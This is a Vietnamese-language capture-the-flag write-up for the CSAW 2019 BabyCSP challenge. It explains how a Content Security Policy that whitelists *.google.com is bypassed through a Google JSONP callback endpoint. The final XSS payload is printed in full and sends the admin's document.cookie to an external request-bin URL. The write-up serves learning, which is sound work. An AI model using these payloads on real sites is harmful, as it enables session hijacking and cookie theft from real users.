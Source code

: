# CSAW CTF Qualification Round 2019

----
## BabyCSP ([Link](http://web.chal.csaw.io:1000/))
    Mà có vẻ tính đến thời điểm này thì link đóng mất tiêu rồi ...
    
- Nói chung thì cũng là lần đầu giải CTF online, văn kém nên viết writeup cũng hơi lủng củng... 1 phần thì cũng là do may mắn khi google nên rất nhanh mình đã tìm được hướng đi cho bài này, phần còn lại thì cũng giải khá nhiều bài XSS nên phần sau của bài CSP này của mình cũng khá nhanh. Cảm giác rất dễ chịu cho bài CTF online đầu tiên. Qua đến bài Unagi thì... mù tịt hướng đi... Dù đã làm nhiều về upload file liên quan tới image rồi nhưng với xml thì chưa bao giờ làm. Sau 1 đoạn thời gian google không có kết quả khả quan thì mình quyết định đi học bài để mai thi... Kết thúc kỷ niệm về bài giải CTF online...

- Mở đầu đề bài 1 đoạn CSP sau:

> Sơ bộ 1 chút thì Content Security Policy (CSP) là chính sách bảo mật nội dung, được sử dụng để xác định các nguồn nội dung an toàn trên website mà trình duyệt có thể tải về cho người dùng. CSP là biện pháp đối phó rất hiệu quả với kiểu hack chèn mã độc Cross Site Scripting (XSS).

[csp](image/csp.png)

- Chú ý đến đoạn: `script-src 'self' *.google.com`
    - Hiểu đơn giản 1 chút thì đoạn csp trên chỉ định rõ nguồn sử dụng Javascript hợp lệ là `*google.com`
        - Để hiểu rõ hơn thì: [link](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src)
- Vấn đề là bây giờ kiếm đâu ra nguồn Javascript của google và gắn đoạn payload của mình vô để bypass qua csp của bài... Thôi google để xem có tìm thấy gì đó hữu ích không...
- Mình là con người đơn giản, đề cho cái gì thì ghi sạch lên google để tìm thử: `bypass csp xss script src google.com`
- Mò 1 hồi thì cũng tìm thấy thông tin hữu ích... [Link](https://appio.dev/vulns/google-csp-evaluator/)
    - Để ý đoạn này: `The first one is that *.google-analytics.com hosts JSONP endpoints, that would allow us to bypass the CSP.`
    - Cũng như `*.google.com`, ta có thể bypass qua csp bằng JSONP endpoints

- Rất may là trong link đó họ cho cả 1 whitelist JSONP luôn, đỡ mất công tìm
    - Phân vân 1 hồi thì mình chọn link sau để thêm payload vào: `https://accounts.google.com/o/oauth2/revoke?callback=`
    - Test luôn, không nói nhiều, nhồi 1 đoạn Javascript đơn giản `alert(1)` vô link rồi submit xem có gì xảy ra không

    `<script type="text/javascript" src="https://accounts.google.com/o/oauth2/revoke?callback=alert(1)"></script>`
    - Vì viết writeup hơi muộn nên web đóng mất tiêu rồi. Ảnh nào có thì up luôn, ảnh nào không có thì đi mượn ké vậy...

    [alert](alert.png)
   - Thành công mỹ mãn, giờ thì dễ rồi. Tạo 1 requestsbin ngay và luôn để hứng flag thôi chứ làm gì
   - đoạn payload để get cookie admin của mình: `location.replace('https://enzbo4rvhzz9n.x.pipedream.net/?key='%2bdocument.cookie)`

        - Giải thích 1 chút thì hàm `location.replace` sẽ ngay lập tức dẫn client đến URL format `location.replace(URL)`, ở đây kèm theo hàm `document.cookie` nữa để GET ra cookie của admin`

- Payload cuối cùng để mình submit lên đó là:
`<script type="text/javascript" src="https://accounts.google.com/o/oauth2/revoke?callback=location.replace('https://enzbo4rvhzz9n.x.pipedream.net/?key='%2bdocument.cookie)"></script>`

- Tuy nhiên là có vấn đề nho nhỏ ở đây, mới đầu ta submit payload lên thì nó đi thẳng tới requestsbin luôn, tức là nó gửi cookie của ta lên requestsbin luôn, lấy làm gì nhỉ, bộ flag trong source luôn chắc...

- Bây giờ ra submit đại 1 cái gì đó lên, rồi nhấn vô `report to admin`, và bây giờ ta được chuyển qua link `http://web.chal.csaw.io:1000/report?id=52279` trong 1 khoảng khắc. Giờ rõ rồi, mỗi submit sẽ tạo 1 post chứa id riêng và khi report lên admin thì chỉ cần thay id là được.
- Giờ đơn giản rồi, submit lại payload và lấy ra id của nó. Thay vô link report rồi report lên admin lại là xong. Bây giờ lên requestsbin lấy flag thôi

[flag](image/flag.png)
